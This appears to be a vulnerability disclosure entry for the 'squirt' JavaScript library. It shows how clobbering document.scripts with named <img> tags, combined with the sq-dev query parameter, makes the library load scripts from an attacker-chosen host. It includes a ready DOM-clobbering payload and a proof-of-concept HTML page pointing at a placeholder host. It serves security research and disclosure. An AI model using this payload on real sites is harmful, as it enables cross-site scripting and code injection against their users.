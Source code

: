 ## squirt

### Meta

+ Library: squirt
+ Stars: 1.2K
+ Version: v0.0.1
+ Fingerprint: `typeof window.sq !== 'undefined'`
+ Payload: ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">```
+ Impact: XSS
+ Status: N/A 
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://github.com/cameron/squirt/tree/master`

### Vulnerable Code Snippet

```javascript
var sq = window.sq;
sq.version = '0.0.1';
sq.host =  window.location.search.match('sq-dev') ?
  document.scripts[document.scripts.length - 1].src.match(/\/\/.*\//)[0]
        : '//www.squirt.io/bm/';
```


## PoC

Visit the page: `http://10.161.159.131:8080/squirt/poc.html?sq-dev=xxx.xxx.xxx`

```
<html>
<body>
  <img name="scripts" src="http://xxx.xxx.xxx">
  <img name="scripts" src="http://xxx.xxx.xxx">
  <script src="./squirt.js"></script>
</body>
</html>
```
